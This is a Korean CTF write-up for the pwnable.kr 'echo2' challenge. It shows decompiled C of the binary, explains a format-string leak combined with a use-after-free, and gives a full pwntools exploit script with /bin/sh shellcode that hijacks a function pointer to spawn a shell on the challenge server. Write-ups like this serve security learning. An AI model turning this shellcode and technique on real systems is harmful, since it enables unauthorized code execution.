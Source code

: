 ```yaml
---
layout: post
title: "pwnable.kr - echo2"
date: 2018-11-14
excerpt: "simple FSB + UAF"
tags: [write-up]
comments: true
---
```

쉬우니까 간단하게 씁니다,,,
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int *v3; // rsi
  _QWORD *v4; // rax
  unsigned int v6; // [rsp+Ch] [rbp-24h]
  __int64 v7; // [rsp+10h] [rbp-20h]
  __int64 v8; // [rsp+18h] [rbp-18h]
  __int64 v9; // [rsp+20h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *(o + 3) = greetings;
  *(o + 4) = byebye;
  printf("hey, what's your name? : ", 0LL);
  v3 = &v7;
  __isoc99_scanf("%24s", &v7);
  v4 = o;
  *o = v7;
  v4[1] = v8;
  v4[2] = v9;
  id = v7;
  getchar();
  func[0] = echo1;
  qword_602088 = echo2;
  qword_602090 = echo3;
  v6 = 0;
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ", v3);
        v3 = &v6;
        __isoc99_scanf("%d", &v6);
        getchar();
        if ( v6 > 3 )
          break;
        (func[v6 - 1])("%d", &v6);
      }
      if ( v6 == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)", &v6);
    v6 = getchar();
  }
  while ( v6 != 121 );
  puts("bye");
  return 0;
}
```
### 바이너리 요약

1. BOF는 사용 불가
2. FSB로 stack 주소 leak 가능
3. exit을 시도하고 n을 입력하면 o를 free시킬 수 있음
4. name에 24 바이트 입력 가능함

### Exploit

3번 방법으로 o를 free 시킨 후 UAF를 선택하면

```c
__int64 echo3()
{
  char *s; // ST08_8

  (*(o + 3))(o);
  s = malloc(0x20uLL);
  get_input(s, 32);
  puts(s);
  free(s);
  (*(o + 4))(o, 32LL);
  return 0LL;
}
```
s를 할당할 때 o 위치로 힙이 생기므로 name에 쉘코드를 넣고 fsb로 leak한 stack 주소를 o+3 혹은 o+4에 넣어주면 됩니다.

```python
from pwn import *

#p = process('./echo2')
p = remote('pwnable.kr', 9011)

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

p.recvuntil('name? : ')
p.sendline(shellcode)

p.recvuntil('> ')
p.sendline('2')
p.sendline('%p ' * 10)

for i in range(10):
	p.recvuntil(' ')

p.recvuntil('0x')
leak = int(p.recvline(), 16) - 0x20

log.info('Shellcode Addr : ' + str(hex(leak)))

p.recvuntil('> ')
p.sendline('4')
p.sendline('n')

p.recvuntil('> ')
p.sendline('3')
p.sendline(p64(leak) * 4)
p.recv()

p.interactive()
```

![id](https://t1.daumcdn.net/cfile/tistory/99404D405BEB7FA922)
